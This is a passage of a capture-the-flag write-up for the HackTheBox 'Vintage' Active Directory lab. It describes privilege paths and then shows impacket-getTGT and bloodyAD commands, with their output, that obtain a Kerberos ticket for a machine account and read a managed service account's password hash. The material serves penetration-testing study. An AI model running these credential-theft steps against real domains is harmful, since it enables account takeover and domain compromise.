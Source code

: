 ![[Screenshot 2025-03-06 170734.jpg]]
Here we can see that the user L.BIANCHI_ADM@vintage.htb is a member of the **DOMAIN ADMINS** group, meaning he has administrator privileges.

---
![[Screenshot 2025-03-06 171255.jpg]]

And that GMSA01$@VINTAGE.HTB can be added to the **DOMAINS ADMINS** group

---
![[Screenshot 2025-03-07 125255.jpg]]

Groups that have control or elevated privileges over the account `GMSA01$@VINTAGE.HTB`

---
![[Screenshot 2025-03-07 125634.jpg]]

From FS01 to GMSA01, we can see that FS01 can read GMS's password

The GMS can then be added to the Administrators group.

## FOOTHOLD
---
We use `impacket-getTGT`: we provide password, hash or aeskey to request TGT and save it in ccache format

```bash
❯ impacket-getTGT -dc-ip 10.10.11.45 vintage.htb/FS01$:fs01
```

```bash
❯ impacket-getTGT -dc-ip 10.10.11.45 vintage.htb/FS01$:fs01
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in FS01$.ccache
```

Once we have the `.ccache` we set the environment variable **KRB5CCNAME** to FS01\$.ccache to specify the cache file that the Kerberos client should use.

```bash
export KRB5CCNAME=FS01\$.ccache
```

Once the `.ccache` file has been exported, we use **bloodyAD** to interact with **Active Directory**, through Kerberos authentication, to obtain the password for the managed service account named `GMSA01$` (stored in the msDS-ManagedPassword attribute) from the specified **Active Directory** domain controller

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword
```

```bash
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:51434c5b357ff89c5f85d994a27f7339
msDS-ManagedPassword.B64ENCODED: qNZ+qlGD+Cx17DM27SffmeF+2eftJRLCsHfxsLxSzhh2dERzgKmiJzvEHrfEAqstlS64r4Y1OQdu8sdCT6b8+gYXpLDa8xBQIFyshNK7YPrERV3rJVALnhITHE4lKIYoagI4Dr9owAMBGo7ZC4LOoBGk90mk4uuIMHNtylVRWva41F+v2TFCzSNfKnBSVuLhiZ+koEMTCkgP3Z+4Xnnluw6qkD3WPsnsYDlYYizOGPhsUwB1GJyzFHawe4iwfVnbWQdouCgflR27treFO5W0R5RqcRhkwEYLomOobFVUa3kGh1iQNdpaJLPI6Uo4767UM1O/sSaeML8nKVKhwsDolA==
```
